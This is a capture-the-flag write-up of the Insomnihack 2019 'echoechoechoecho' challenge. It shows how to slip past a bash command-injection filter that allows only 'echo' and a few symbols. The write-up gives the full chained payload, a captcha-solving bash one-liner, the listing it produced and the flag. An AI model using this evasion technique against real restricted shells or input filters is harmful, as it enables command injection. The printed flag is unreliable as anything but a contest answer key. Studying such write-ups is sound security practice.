 # insomnihack CTF 2019
## echoechoechoecho - 216 , 18 solves
* [solve.py](https://github.com/ssspeedgit00/CTF/blob/master/2019/insomnihack/echoechoechoecho/solve.py)
### The Challenge
Input `thisfile` gives us the source code, the input will be appended several `|bash` and be executed by `bash`. Only very few special characters are allowed:
```python
def check_input(payload):
    if payload == 'thisfile':
        bye(open("/bin/shell").read())

    if not all(ord(c) < 128 for c in payload):
        bye("ERROR ascii only pls")

    if re.search(r'[^();+$\\= \']', payload.replace("echo", "")):
        bye("ERROR invalid characters")

    # real echolords probably wont need more special characters than this
    if payload.count("+") > 1 or \
            payload.count("'") > 1 or \
            payload.count(")") > 1 or \
            payload.count("(") > 1 or \
            payload.count("=") > 2 or \
            payload.count(";") > 3 or \
            payload.count(" ") > 30:
        bye("ERROR Too many special chars.")

    return payload
```
Payload can only contain `(` , `)` , `;` , `+` , `$` , `\` , `=` , ` ` , `'` and `echo`, and limited number of uses of them.
### What we can use
* `$$` - bash process id.
* `$((1+2))` - 3.
### Variables
Thus it can not contain any lower case aphebat, but only `echo`.
* `$a` - `$echo`
* `$b` - `$echoecho`
* `$c` - `$echoechoecho`
* `echo=$$; echo $echo` -> `8`
### Bypass the limited number of use
We can store the special character in the variable. The payload `echo=\=; echo echoecho$echo$$` will output `echoecho=8`. Then we can pass it to `bash` use `|bash`. Other example: `echo=\'; echo echo $echo$$$echo` -> `echo '8'`.
### Generate any bumber
In the seccond `bash`, `$$` is equal to `10` and we can generate `1` by `$(($$==$$))`,`$((10==10))`.For now, we can use `1` and `10` to caculate any number.
### To char
* `echo $'\154\163'` -> `ls`
### We are almost done!
```
echo=\=;echo echoecho$echo\\\; echoechoecho$echo\\\( echoechoechoecho$echo\\\) echoechoechoechoecho$echo\\\+ echoechoechoechoechoecho$echo\\\'\; echo echo echo \\\\$\\\\\$echoechoechoechoechoecho\\\\\\\\\\$\$echoechoecho\$echoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoecho\$echoechoechoecho\\\\\\\\\\$\$echoechoecho\$echoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoecho\$echoechoechoecho\\\\\$echoechoechoechoechoecho
```
* `|bash`
```
echoecho=\; echoechoecho=\( echoechoechoecho=\) echoechoechoechoecho=\+ echoechoechoechoechoecho=\'; echo echo echo \\$\\$echoechoechoechoechoecho\\\\\$$echoechoecho$echoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoecho$echoechoechoecho\\\\\$$echoechoecho$echoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoecho$echoechoechoecho\\$echoechoechoechoechoecho
```
* `|bash`
```
echo echo \$\'\\$(($((79422))+$((79422))+$((79422))+$((79422))+$((79422))+$((79422))+$((79422))+$((79422))+$((79422))+$((79422))+$((79422))+$((79422))+$((79422))+$((79422))+$((79422))+$((79422==79422))+$((79422==79422))+$((79422==79422))+$((79422==79422))))\\$(($((79422))+$((79422))+$((79422))+$((79422))+$((79422))+$((79422))+$((79422))+$((79422))+$((79422))+$((79422))+$((79422))+$((79422))+$((79422))+$((79422))+$((79422))+$((79422))+$((79422==79422))+$((79422==79422))+$((79422==79422))))\'
```
* `|bash`
```
echo $'\154\163'
```
* `|bash`
```
ls
```
* `|bash`
```
bin
boot
dev
etc
flag
get_flag
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```
### There is a captcha `get_flag`
I follow the solution of captcha of <a href="https://hack.more.systems/writeup/2017/12/30/34c3ctf-minbashmaxfun/">LosFuzzys</a>:
```bash
eval "echo \$(($(cat /tmp/a)))"|/get_flag|(read l;read l;echo $l>/tmp/a;cat;)
```
### Finally the flag
`INS{echo_echoecho_echo__echoech0echo_echoechoechoecho_bashbashbashbash}`
* [solve.py](https://github.com/ssspeedgit00/CTF/blob/master/2019/insomnihack/echoechoechoecho/solve.py)